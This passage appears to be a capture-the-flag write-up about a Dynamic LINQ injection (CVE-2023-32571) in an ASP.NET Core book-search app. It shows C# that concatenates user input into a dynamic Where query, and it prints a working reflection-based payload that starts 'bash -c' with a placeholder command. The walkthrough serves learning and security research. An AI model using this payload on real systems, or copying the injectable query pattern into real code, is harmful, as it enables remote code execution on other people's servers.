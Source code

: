 As you can see, this ASP.NET Core MVC application uses [Razor Pages](https://learn.microsoft.com/en-us/aspnet/core/razor-pages/?view=aspnetcore-8.0&tabs=visual-studio) for web views,
**allows** user-driven book searches with dynamic LINQ, and is missing functionality
for adding new books as expected.


The part we are interested in is this:

```cs
// code above...
IQueryable<Book> source = _books.AsQueryable();

if (!string.IsNullOrEmpty(searchString))
{
    source = source.Where("Title.Contains(\"" + searchString + "\")");
}
// code below...
```

The Dynamic LINQ library allows for constructing LINQ queries using string expressions at runtime, enabling more flexible querying by converting string-based query syntax into actual LINQ queries, as shown in the provided code where source.Where uses a dynamic query string to filter books based on the searchString.

> "LINQ (Language Integrated Query) queries are a feature in .NET that allows you to write queries directly in C# (or other .NET languages) to manipulate and retrieve data from various data sources"


Interesting, I wonder if anything pops up if we search `dynamic linq vulnerability`
on the internet.

![search](/images/2024-08-27-19-38-12.png)

RCE directly lol, let's read this article which describes the vulnerability [here](https://research.nccgroup.com/2023/06/13/dynamic-linq-injection-remote-code-execution-vulnerability-cve-2023-32571/):

> Users can execute arbitrary code and commands where user input is passed to Dynmic Linq methods such as .Where(...), .All(...), .Any(...) and .OrderBy(...). The .OrderBy(...) method is commonly provided with unchecked user input by developers, which results in arbitrary code execution.

The vulnerability is exploited by using reflection to access and invoke methods from the current domain, akin to climbing up the inheritance tree in Python, to achieve remote code execution (RCE).

Unfortunately though, I'm not that familiar with C#. Let's see if we can get a PoC (proof of concept):

[Here](https://github.com/Tris0n/CVE-2023-32571-POC). We got the same logic reflected in this challenge,
with a payload originally looking like this:

```
"".GetType().Assembly.DefinedTypes.Where(it.Name == "AppDomain").First().DeclaredMethods.Where(it.Name == "CreateInstanceAndUnwrap").First().Invoke("".GetType().Assembly.DefinedTypes.Where(it.Name == "AppDomain").First().DeclaredProperties.Where(it.name == "CurrentDomain").First().GetValue(null), "System, Version = 4.0.0.0, Culture = neutral, PublicKeyToken = b77a5c561934e089; System.Diagnostics.Process".Split(";".ToCharArray())).GetType().Assembly.DefinedTypes.Where(it.Name == "Process").First().DeclaredMethods.Where(it.name == "Start").Take(3).Last().Invoke(null, "bash;-c <command-here>".Split(";".ToCharArray()))
```
